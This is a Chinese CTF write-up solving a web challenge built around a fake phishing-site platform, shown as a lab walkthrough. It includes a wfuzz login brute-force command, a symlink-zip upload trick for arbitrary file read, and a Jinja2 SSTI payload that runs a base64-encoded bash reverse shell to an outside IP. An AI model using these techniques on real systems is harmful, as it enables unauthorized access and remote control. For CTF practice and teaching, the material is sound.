 # phishing

- 出题人: pyy

- 验题人: pyy

## 题目描述

去年钓鱼网站竟然真的骗到了不少人! 这次pyy竟然有故技重施, 想要骗大伙的分! 现在报仇雪恨的时候到了~

真有人的钓鱼网站后台放在这种显眼的地方(咦, 什么东西闪过去了), 而且还用弱用户名和密码? 而且这平台也太烂了吧, 会对用户名和密码分别报错诶.......

tips: 大伙知道什么是dirsearch嘛~ 那么wfuzz呢~

tips2: 哇偶, wfuzz是不是不太擅长json的爆破? 或许是cmd的问题? 是不是加个反斜杠会好一点~

**第二阶段提示:**

- 后台页面? 用dirsearch扫一把, 注意输入的路径噢~
- wfuzz不好用的话, 自己写脚本/yakit/burp(付费版)也是好用哒
- 我们的目的是读取根目录上的文件, 好像是任意文件读的范畴? python上传文件好像不能做什么, 但它自动解压......? (解压路径需要抓包看------)
- 用任意文件读把源码扒下来看看!

## 出题思路

这是继承去年钓鱼网站的钓鱼网站部署项目, 可以上传网站代码并自动mock(如果我做的再好点就是输入一个url自动爬取并mock, 但懒得做了另外又不是要做黑产()). 进来会先跳转到一个ctrl+s出来的新生赛登录界面, 如果你在这里输入了正确的用户名和密码就会在后台提交**愿者上钩**的第二个flag, 于是你的100分就消失啦!

`在5/3前做出愿者上钩第二题的方法`: 使用端口扫描扫到这道还没放出的题, 并且交自己的用户名和密码(去年有人在放题之前就扫端口进了题捏)

## 解法

### flag1

`python dirsearch.py -u http://121.5.48.11:20021/`

![image-20230510204426636](README.assets/image-20230510204426636.png)

访问`www.zip`即可

### flag2

使用了[TheKingOfDuck/fuzzDicts: Web Pentesting Fuzz 字典,一个就够了。](https://github.com/TheKingOfDuck/fuzzDicts)

`wfuzz -z file,"fuzzDicts\userNameDict\top500.txt" -d '{\"username\":\"FUZZ\",\"password\":\"123\"}' -H 'Content-Type: application/json'  --hs "用户名错误" http://121.5.48.11:20021/admin`

wfuzz需要用转义字符描述包内容, 以及content-type为json, --hs隐藏包含`用户名错误`的返回信息. 由于会对用户名和密码的错误分别报错, 所以分别将用户名和密码改为FUZZ.

扫出来发现用户名是admin, 密码是qwertyui. 强度都很弱.

### flag3

谷歌搜索`任意文件读 自动解压`可得上传软连接后读取文件的方法. 

> Linux软连接（symbolic link）是一种特殊的文件类型，它允许一个文件或目录链接到另一个位置。和硬链接不同，软连接并不是基于inode进行链接，而是基于路径进行链接。
>
> 软连接可以方便地创建一个指向某个文件或目录的快捷方式，使得用户可以通过软连接访问到目标文件或目录，而无需知道其真实的物理路径。软链接还可以跨越文件系统边界，因为它只是一个指向目标文件或目录的路径名，而不是直接访问目标文件或目录。
>
> 在linux中，可以使用ln命令来创建软连接。例如，在当前目录下创建一个指向/usr/share/doc目录的软连接，可以执行以下命令：
>
> ```sh
> ln -s /usr/share/doc doc
> ```
>
> 执行后，会在当前目录下生成一个名为doc的软链接文件，并且该软链接将指向/usr/share/doc目录。

所以在wsl中创建一个软连接, 指向flag3的位置, 然后压缩后上传, 根据返回路径访问对应软链接, 即可获取flag文件.

[一个有趣的任意文件读取](https://xz.aliyun.com/t/2589#:~:text=解决方案)

flag3文件内容:

```
r00t2023{Ar01rary_file_reading_can_bring_you_more!}

太好了, 真有人能做到这一步!
既然你能读取任意文件, 那么你就可以拿到所有的源码, 然后就可以看看能不能rce!
flag4在另一个奇怪的目录, 想必不能rce是不会知道在哪里的

提示:
这个项目的文件树

/app
├── README.md
├── requirements.txt
├── run.py
├── sql.db
└── src
    ├── __init__.py
    ├── app
    │   ├── __init__.py
    │   ├── amis_router.py
    │   ├── main_router.py
    │   └── mock_router.py
    ├── conf
    │   ├── __init__.py
    │   ├── amis.json5
    │   ├── amis_template.py
    │   ├── app.json5
    │   ├── funcs.py
    │   ├── log.yaml
    │   ├── main.json5
    │   ├── mock.json5
    │   ├── sql.json5
    │   └── sql.json5.example
    ├── log
    │   ├── debug.log
    │   ├── info.log
    │   └── warning.log
    ├── main_app.py
    ├── model
    │   ├── __init__.py
    │   └── response.py
    ├── sql
    │   ├── __init__.py
    │   ├── amis.py
    │   ├── base.py
    │   ├── mock.py
    │   └── phish.py
    ├── static
    │   ├── money.jpg
    │   └── upload
    │       └── game
    │           ├── R0v0T CTF_files
    │           │   ├── 2.634ed0a6.chunk.js.下载
    │           │   ├── anticheat.js.下载
    │           │   ├── main.a2cecbaa.chunk.css
    │           │   └── main.ce4ea00a.chunk.js.下载
    │           └── index.html
    └── utils
        ├── __init__.py
        ├── misc.py
        └── ui.py
```

### flag4

使用给的文件树爬几个感兴趣的文件下来可以得到发现在`/app/src/app/main_router.py`中有

```python
from jinja2 import Template

# 上传template文件, 使用regex检测模板中{{.*}}的内容, 限制模板只能是phish_url, 然后随机分配一个路径
template_pt = re.compile(r"{{.*}}")
@main.post("/template")
async def ssti(html: str = Body(..., embed=True),
               sess: AsyncSession = Depends(db_sess),):
  tp = re.findall(template_pt, html)
  for each in tp:
    if each != '{{phish_url}}':
      raise AmisExp("模板只能是{{phish_url}}!")
  path = uuid4().hex
  sess.add(PhishTemplate(path=path, html=html))
  return AmisRes(f"模板路径: /t/{path}", msg_timeout=30000)

#从数据库取出模板文件, 然后使用jinja渲染
@main.get("/t/{path:path}")
async def get_template(path: str = Path(...),
                       sess: AsyncSession = Depends(db_sess),):
  html = await sess.scalar(select(PhishTemplate.html).filter_by(path=path))
  if html is None:
    return Response(status_code=404)
  return HTMLResponse(Template(html.replace("{{phish_url}}", "/phish/give_me_password")).render())
```

发现过滤了`{{xxx}}`但没过滤`{%%}`, 查一下发现有现成的payload: [以 Bypass 为中心谈 Flask-jinja2 SSTI 的利用](https://xz.aliyun.com/t/9584#toc-23)

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{% set a=c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNjIuMTcuNDEvNDI2NDggMD4mMSc=|base64 -d|bash').read()")%}{% endif %}{% endfor %}
```

改一下执行的命令为反弹shell命令即可, 没有服务器的小伙伴可以用内网穿透, 还是有一些免费的的。

> 反弹shell（Reverse Shell）是指攻击者通过在目标系统上运行恶意软件，利用网络连接将控制权反向传输到攻击者的机器，从而使攻击者能够完全控制目标系统。具体来说，攻击者会在目标系统上运行一个后门程序，等待攻击者从自己的机器上发起连接请求，并在连接建立后将控制权交给攻击者，使攻击者能够在目标系统上执行任意操作，包括文件操作、进程管理、网络操作等等。
>
> 反弹shell常用于渗透测试、黑客攻击等领域，攻击者可以通过反弹shell来窃取敏感信息、操纵目标系统、扩大攻击面等，因此也是网络安全工程师需要重点防范的一种攻击方式。
